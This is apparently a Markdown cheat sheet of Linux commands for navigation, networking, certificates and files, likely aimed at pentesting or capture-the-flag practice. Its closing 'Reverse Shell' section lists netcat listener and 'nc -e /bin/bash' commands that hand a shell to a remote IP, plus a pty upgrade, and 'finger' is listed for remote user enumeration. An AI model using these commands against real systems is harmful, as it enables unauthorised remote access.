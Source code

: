 ## Search and Navigation
- `pwd` : Display the current working directory.
- `ls` : List files in the current directory.
- `lsblk` : List mounted disks and partitions.
- `locate <file_name>` : Search for a file in the system.
- `which <command_name>` : Show the path of a command's executable.

## History & Logging
- `history` : Display the history of executed commands.
- `script my_log_file.txt` : Record the entire terminal session into a text file.

## Networking & Services
- `telnet <host> 80` : Test connection to a service.
  - Example:
    ```
    telnet example.com 80
    GET / HTTP/1.1
    Host: example.com
    ```

- `finger @<ip>` : List the users on a remote machine.
- `finger fabiano@<ip>` : Get specific information about a user.
- `wget -r -np -nH --cut-dirs=0 http://192.168.1.100:8000/` : Download all files/folders from a directory hosted on a Python web server.
- `ss -tulpn`: Display all the open port.


## System
- `kill {pid}`: Kill a process
- `find / -name "*...*" 2>/dev/null`: Search a word in the system 

## Crypto & Certificates
- `openssl x509 -in key.pem -text -noout` : Analyze a X.509 certificate.

## Databases
- `sqlite3 filedb.sqlite` : Start an SQLite session on a `.sqlite` file.

## File Information
- `file <file_name>` : Display the file type.

## Reverse Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Upgrade a reverse shell to a fully interactive shell.
- `nc -lvnp 4444`: Open port 4444
- `nc <ip> 4444 > file.txt`: Retrieve a file from an open port on other machine 
- `nc <ton_ip> 4444 -e /bin/bash`: Connect to the reverse shell with nc

